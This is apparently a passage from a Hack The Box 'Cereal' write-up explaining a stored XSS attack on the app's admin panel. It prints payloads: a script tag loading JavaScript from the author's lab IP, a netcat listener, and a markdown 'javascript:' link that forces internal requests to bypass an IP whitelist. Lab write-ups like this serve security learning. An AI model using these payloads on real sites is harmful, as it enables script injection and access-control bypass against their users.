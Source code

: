 # XSS in Admin Panel

We cannot access the Admin Panel, due to it being an authenticated `PrivateRoute`. However, we can see that it renders cereal request objects on the page, which may make it vulnerable to a cross-site scripting attack.

```jsx
<div>
	{requestData &&
		<Card.Body>
			Description:{requestData.description}
			<br />
			Color:{requestData.color}
			<br />
			Flavor:{requestData.flavor}
		</Card.Body>
	}
</div>
```

This is assuming there is a simulated 'admin' user viewing this page. This is sometimes the case on HacktheBox, for example on the Crossfit machine.

**How can we leverage the XSS?**

The IP whitelist means that only the box itself can make requests to certain methods, including the vulnerable one we wish to target. If we can make the box make a HTTP request using javascript, we can bypass the IP restriction.

**Note**

When I first tried this box, I couldn't initially get the XSS working and instead moved on to testing the Deserialisaton. I've reordered what I tried in the writeup slightly as it made more sense this way, but as always you can skip to the [[30 - XSS#Fixing the XSS|correct method]] if you don't want to read about my failed attempts.

## Trying a Basic XSS

We create a simple javascript file, `0.js`, that makes a request to our box. This is just to test we can run javascript on the box.

```javascript
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://10.10.14.62/example.txt");
oReq.send();
```

We then want to submit a request to this javascript file as a script in the description field.

```javascript
<script src="10.10.14.62/0.js"></script>
```

To generate this, we run the stringify script on the following JSON:

```javascript
console.log(JSON.stringify({ JSON: JSON.stringify({title:'t',flavor:'f',color:'#FFF',description:'<script src="10.10.14.62/0.js"></script>' }) }))
```

Which creates our payload:

```json
{"JSON":"{\"title\":\"t\",\"flavor\":\"f\",\"color\":\"#FFF\",\"description\":\"<script src=\\\"10.10.14.62/0.js\\\"></script>\"}"}
```

We could make the `XMLHTTPRequest()` in the description field, but it is much nicer to request a file as a script source - it keeps the payload short, and allows us to easily edit the file on our box.

Our final bit of setup is to run a netcat listener to catch the request:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal/test-www]
└─$ sudo nc -lnvp 80
[sudo] password for mac: 
listening on [any] 80 ...
```

Then we submit the payload and wait for a response:

![[Pasted image 20210406101322.png]]

We don't get anything back to netcat. Creating a `0.html` file that runs our `0.js` script locally does give us a response, so we know the `XMLHTTPRequest` works and the server is setup correctly:

![[Pasted image 20210406101542.png]]

This suggests the description field may not be vulnerable in this way, or there is something preventing the box from making outgoing requests.

## Fixing the XSS

When I first did this box, I wasn't sure which parts of my payload were broken until I tested them all together. It turned out to be, well, both parts. But rather than writing this up in chronological order and having a broken XSS payload for half of my writeup, I've moved the correct CVE to this section. As always, you can skip to the final [[35 - Exploit Chain#Submitting our Test Payload|working payload]] if you want.

### Markdown Overview

When I took another look at the code in `ClientApp/src/AdminPage/AdminPage.jsx`, I noticed something I'd missed before:

![[Pasted image 20210607210839.png]]

I googled "markdown preview xss" first, but that gave me some [generic markdown XSS payloads](https://medium.com/taptuit/exploiting-xss-via-markdown-72a61e774bf8). They ultimately didn't look right - I suspected if a basic `<script>` tag wouldn't work on a Hard box, then neither would a [basic script tag rendered by markdown](https://github.com/JakobRPennington/InformationSecurity/blob/master/Payloads/md/XSS.md). So I looked at the source of the `MarkdownPreview` element (`import { MarkdownPreview } from 'react-marked-markdown';`) and googled "react-marked-markdown xss" instead.

This [snyk post](https://snyk.io/vuln/npm:react-marked-markdown:20180517) and corresponding [git repo](https://github.com/advisories/GHSA-m7qm-r2r5-f77q) looked more promising. They described a proof of concept in the `value` field of the `MarkdownPreview` element:

```jsx
import React from 'react'
import ReactDOM from 'react-dom'
import { MarkdownPreview } from 'react-marked-markdown'

ReactDOM.render(
<MarkdownPreview
markedOptions={{ sanitize: true }}
value={'[XSS](javascript: alert`1`)'}
/>,
document.getElementById('root')
)
```

Our cereal's `title` is inserted into this field! So in theory we can create one with a title similar to the following:

```jsx
[mouldy cereal](javascript: var oReq = new XMLHttpRequest();oReq.open("GET", "http://localhost/requests?id=9");oReq.send();)
```

To test this works, we need to move on to the next stage - chaining this and the deserialisation payload together.

In general it's good to test things locally before sending them at the remote application, and I would do that on a real assessment. But as it's just HTB and there's no need for opsec, I decided not to fiddle around with building the app locally.